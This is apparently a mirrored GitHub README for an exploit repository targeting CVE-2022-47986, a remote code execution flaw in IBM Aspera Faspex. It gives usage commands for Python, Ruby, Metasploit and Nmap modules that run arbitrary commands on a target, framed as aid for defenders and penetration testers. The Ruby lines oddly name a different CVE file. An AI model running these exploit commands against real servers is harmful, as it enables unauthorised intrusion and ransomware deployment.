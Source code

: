 # CVE-2022-47986

CVE-2022-47986: Python, Ruby, NMAP and Metasploit modules to exploit the vulnerability.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/mauricelambert](https://github.com/mauricelambert) |
| Url      | [https://github.com/mauricelambert/CVE-2022-47986](https://github.com/mauricelambert/CVE-2022-47986)                                               |
| Stars    | 0                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* aspera* cve-2022-47986* deserialization* exploit* faspex* ibm* metasploit* nmap* poc* python3* rce* ruby* vulnerability* yaml

</details>

## Readme

# CVE-2022-47986

## Why

This vulnerability is exploited in the wild.
IceFire use this vulnerability to deploy the ransomware on targeted systems, i would like to help SOC/Blue teams to identify impacted systems and Pentesters/Red teams to exploit and report it.

## Description

I propose pure python and ruby scripts, metasploit and nmap modules to exploit the vulnerability that causes a RCE (Remote Code Execution) on IBM Aspera Faspex from YAML deserialization.

## Exploit: RCE (Remote Code Execution)

### Python

```bash
python3 CVE-2022-47986.py <target> <command>
# OR
chmod u+x CVE-2022-47986.py
./CVE-2022-47986.py https://aspera.faspax.local id
```

### Ruby

```bash
ruby CVE-2021-31166.rb
ruby CVE-2021-31166.rb <hostname> -c <command>
ruby CVE-2021-31166.rb aspera.faspax.local -c id
```

### Metasploit

```text
msf6 > use exploit/linux/http/ibm_aspera_faspex_rce_yaml_deserialization 
msf6 exploit(linux/http/ibm_aspera_faspex_rce_yaml_deserialization) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 exploit(linux/http/ibm_aspera_faspex_rce_yaml_deserialization) > set LHOST 192.168.77.139
LHOST => 192.168.77.139
msf6 exploit(linux/http/ibm_aspera_faspex_rce_yaml_deserialization) > exploit
```

### Nmap

```bash
nmap -p 443 --script ibm-aspera-faspex-rce 172.17.0.2
nmap -p 443 --script ibm-aspera-faspex-rce --script-args "command=id" 172.17.0.2
```

## Sources

 - [IBM](https://www.ibm.com/support/pages/node/6952319)
 - [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2022-47986)
 - [Blog - Exploit](https://blog.assetnote.io/2023/02/02/pre-auth-rce-aspera-faspex/)
 - [thehackernews - exploited by icefire](https://thehackernews.com/2023/03/icefire-linux-ransomware.html)
 - [thehackernews - CISA KEV catalog](https://thehackernews.com/2023/02/us-cybersecurity-agency-cisa-adds-three.html)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).



## Get the content

```
git clone https://github.com/mauricelambert/CVE-2022-47986
cd CVE-2022-47986
```

{% embed url="https://github.com/mauricelambert/CVE-2022-47986" %}

<figure><img src="https://avatars.githubusercontent.com/u/50479118?v=4" alt=""><figcaption><p>mauricelambert</p></figcaption></figure>
